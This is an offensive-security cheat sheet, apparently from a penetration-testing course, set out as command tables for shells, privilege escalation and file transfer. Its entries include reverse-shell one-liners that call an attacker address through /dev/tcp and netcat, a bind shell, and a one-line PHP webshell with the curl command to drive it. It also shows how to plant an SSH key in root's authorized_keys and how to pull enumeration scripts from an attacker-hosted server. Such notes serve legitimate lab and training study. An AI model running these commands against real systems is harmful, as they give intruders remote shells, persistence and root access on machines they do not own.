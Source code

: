 
# Using Shells
| Command                           | Description                           |
|-----------------------------------|---------------------------------------|
| `nc -lvnp 1234`                   | Start a nc listener on a local port   |
| `bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'` | Send a reverse shell from the remote server |
| `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f` | Another command to send a reverse shell |
| `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f` | Start a bind shell on the remote server |
| `nc 10.10.10.1 1234`              | Connect to a bind shell started on the remote server |
| `python -c 'import pty; pty.spawn("/bin/bash")'` | Upgrade shell TTY (1) |
| `ctrl+z` then `stty raw -echo` then `fg` then enter twice | Upgrade shell TTY (2) |
| `echo "<?php system(\$_GET['cmd']);?>" > /var/www/html/shell.php` | Create a webshell PHP file |
| `curl http://SERVER_IP:PORT/shell.php?cmd=id` | Execute a command on an uploaded webshell |

## Privilege Escalation
| Command                           | Description                           |
|-----------------------------------|---------------------------------------|
| `./linpeas.sh`                    | Run linpeas script to enumerate remote server |
| `sudo -l`                         | List available sudo privileges        |
| `sudo -u user /bin/echo Hello World!` | Run a command with sudo             |
| `sudo su -`                       | Switch to root user (if we have access to sudo su) |
| `sudo su user -`                  | Switch to a user (if we have access to sudo su) |
| `ssh-keygen -f key`               | Create a new SSH key                  |
| `echo "ssh-rsa AAAAB...SNIP...M= user@parrot" >> /root/.ssh/authorized_keys` | Add the generated public key to the user |
| `ssh root@10.10.10.10 -i key`     | SSH to the server with the generated private key |

## Transferring Files
| Command                           | Description                           |
|-----------------------------------|---------------------------------------|
| `python3 -m http.server 8000`     | Start a local webserver               |
| `wget http://10.10.14.1:8000/linpeas.sh` | Download a file on the remote server from our local machine |
| `curl http://10.10.14.1:8000/linenum.sh -o linenum.sh` | Download a file on the remote server |
| `scp linenum.sh user@remotehost:/tmp/linenum.sh` | Transfer a file to the remote server with scp (requires SSH access) |
| `base64 shell -w 0`               | Convert a file to base64              |
| `echo f0VMR...SNIO...InmDwU | base64 -d > shell` | Convert a file from base64 back to its original format |
| `md5sum shell`                    | Check the file's md5sum to ensure it converted correctly |

